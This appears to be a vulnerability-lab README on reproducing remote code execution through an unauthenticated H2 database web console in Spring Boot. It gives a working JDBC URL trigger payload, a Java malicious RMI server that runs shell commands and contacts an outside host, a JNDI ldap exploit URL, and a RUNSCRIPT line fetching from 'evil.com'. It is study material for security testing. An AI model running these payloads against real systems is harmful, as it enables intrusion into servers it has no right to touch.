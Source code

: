 # H2 Database Web Console Unauthorized Access

[中文版本(Chinese version)](README.zh-cn.md)

H2 database is a embedded in-memory database in Java. Springboot with h2 database comes with a web management page which has no authentication if you set the following options:

```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

This management page supports to use JNDI to load the JDBC driver, which can lead to remote code execution via JDBC attacking or JNDI injection.

References:

- <https://mp.weixin.qq.com/s?__biz=MzI2NTM1MjQ3OA==&mid=2247483658&idx=1&sn=584710da0fbe56c1246755147bcec48e>
- <https://www.exploit-db.com/exploits/45506>
- <https://github.com/h2database/h2database/pull/1580>
- <https://github.com/h2database/h2database/pull/1726>
- <https://github.com/h2database/h2database/issues/1225>

## Setup

Start a spring-boot with h2 database and embedded tomcat:

```
docker compose up -d
```

After started the container, the spring-boot is listening on `http://your-ip:8080`, the management page is `http://your-ip:8080/h2-console/` by default.

## Vulnerability Reproduce

There are two ways to exploit this vulnerability, one is the [JDBC attack](https://su18.org/post/jdbc-connection-url-attack/), the other is the [JNDI injection](https://www.veracode.com/blog/research/exploiting-jndi-injections-java).

### JDBC Attack

The H2 console allows users to specify any JDBC URL. By specifying `jdbc:h2:mem:testdb` and using the JDBC `init` property, we can execute any SQL statements in the local memory server's memory.

The h2 database supports some special and dangerous commands, such as:

- `RUNSCRIPT FROM 'http://evil.com/script.sql'`
- `CREATE ALIAS func AS code ...; CALL func ...`
- `CREATE TRIGGER ... AS code ...`

We can use `CREATE TRIGGER` to construct a malicious SQL statement, then put it into the JDBC URL:

```
jdbc:h2:mem:testdb;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript
    var is = java.lang.Runtime.getRuntime().exec("id").getInputStream()
    var scanner = new java.util.Scanner(is).useDelimiter("\\A")
    throw new java.lang.Exception(scanner.next())
$$;
```

Click "Test Connection" in the H2 console and capture the request, then modify the JDBC URL in the request to successfully execute the `id` command.

![](1.png)

### JNDI Injection

The H2 console after version 1.4.197 added a new [`-ifNotExists` option](https://github.com/h2database/h2database/pull/1726) that disable remote database creation by default. This new change makes it harder to exploit JDBC attacks in the absence of a known database.

However, the H2 console still supports JNDI injection, which can be used to execute arbitrary commands.

Reference to [Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java), we can use `org.apache.naming.factory.BeanFactory` and `javax.el.ELProcessor` to launch the external process after Java 8u191:

```java
import java.rmi.registry.*;
import com.sun.jndi.rmi.registry.*;
import javax.naming.*;
import org.apache.naming.ResourceRef;
 
public class EvilRMIServerNew {
    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);
 
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
        ref.add(new StringRefAddr("forceString", "x=eval"));
        //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','nslookup jndi.s.artsploit.com']).start()\")"));
 
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);
    }
}
```

Simply use this tool [JNDIExploit](https://github.com/vulhub/JNDIExploit) to exploit the vulnerability.

Start the `JNDIExploit` and fill in the form based on these pieces of information:

![](2.png)

`javax.naming.InitialContext` is the JNDI factory class name, URL `ldap://172.17.0.1:1389/TomcatBypass/Command/Base64/dG91Y2ggL3RtcC9zdWNjZXNz` is your evil JNDI url.

Evil JNDI server received the requests:

![](3.png)

As you can see, `touch /tmp/success` has been executed successfully:

![](4.png)
